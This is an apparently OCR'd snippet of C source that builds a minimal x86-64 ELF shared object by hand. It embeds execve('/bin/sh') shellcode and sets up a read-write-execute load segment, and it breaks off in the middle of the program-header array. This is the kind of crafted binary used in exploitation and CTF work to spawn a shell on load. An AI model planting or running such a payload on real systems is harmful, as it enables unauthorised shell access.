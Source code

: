 ```
1 Ehdr: 64
2 Phdr: 2 * 56 = 112
4 Dyn: 4 * 16 = 64
= 240 + sizeof(pyaload)
```

The code:

```C
#include <elf.h>
#include <unistd.h>

char shellcode[] = {
	0x6a, 0x3b, // pushq  $0x3b
	0x58,       // pop    %rax
	0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f,
	0x73, 0x68, 0x00, // movabs $0x68732f6e69622f,%rbx
	0x99, // cltd
	0x53, // push   %rbx
	0x54, // push   %rsp
	0x5f, // pop    %rdi
	0x52, // push   %rdx
	0x57, // push   %rdi
	0x54, // push   %rsp
	0x5e, // pop    %rsi
	0x0f, 0x05, // syscall
};

int main() {
	Elf64_Ehdr ehdr = {
		.e_ident = {
			[EI_MAG0] = ELFMAG0,
			[EI_MAG1] = ELFMAG1,
			[EI_MAG2] = ELFMAG2,
			[EI_MAG3] = ELFMAG3,
			[EI_CLASS] = ELFCLASS64,
			[EI_DATA] = ELFDATA2LSB,
			[EI_VERSION] = EV_CURRENT,
			[EI_OSABI] = ELFOSABI_SYSV,
		},
		.e_type = ET_DYN,
		.e_machine = EM_X86_64,
		.e_version = EV_CURRENT,
		.e_ehsize = sizeof(Elf64_Ehdr),
		.e_phentsize = sizeof(Elf64_Phdr),
	};

	ehdr.e_shstrndx = SHN_UNDEF;
	ehdr.e_shoff = 0;
	ehdr.e_shnum = 0;

	ehdr.e_phoff = sizeof(ehdr);
	ehdr.e_phnum = 2;

	Elf64_Phdr phdrs[] = {
		{
			.p_type = PT_LOAD,
			.p_flags = PF_X|PF_W|PF_R,
			.p_align = 0x1000,
		},
		{
			.p_type = PT_DYNAMIC,
			.p_flags = PF_W|PF_R,
			.p_align = 0x8,
```